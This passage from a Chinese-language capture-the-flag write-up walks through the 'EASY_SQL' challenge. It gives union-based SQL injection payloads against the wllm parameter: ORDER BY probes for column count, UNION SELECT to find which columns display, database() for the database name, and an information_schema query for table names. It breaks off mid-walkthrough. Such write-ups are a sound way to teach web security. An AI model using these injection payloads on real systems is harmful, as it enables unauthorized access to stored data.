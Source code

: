 
查询源码得到flag

------

### 6.EASY_SQL

打开网址发现提示：

球球你输入点东西吧！

右键查询源码，发现提示参数是wllm，随便输入一些数据进去:

?wllm=1

传入后得到提示：

Your Login name:xxx

Your Password:yyy

传回来的参看是一个表单信息，所以判断一下表单有几列

依次输入：

?wllm=1' order by 1 --+

?wllm=1' order by 2 --+

?wllm=1' order by 3 --+

?wllm=1' order by 4 --+







发现当输入到4时，显示：Unknown column '4' in 'order clause'

由此可得，该表单有3列

查询列，输入?wllm=-1' union select 1,2,3 --+





Your Login name:2

Your Password:3

由此可得，第二列叫name，第三列叫password

使用database()函数，查询数据库名，输入?wllm=-1' union select 1,2,database() --+



Your Login name:2

Your Password:test_db

得到数据库名为test_db

获取数据库中的表名，输入?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
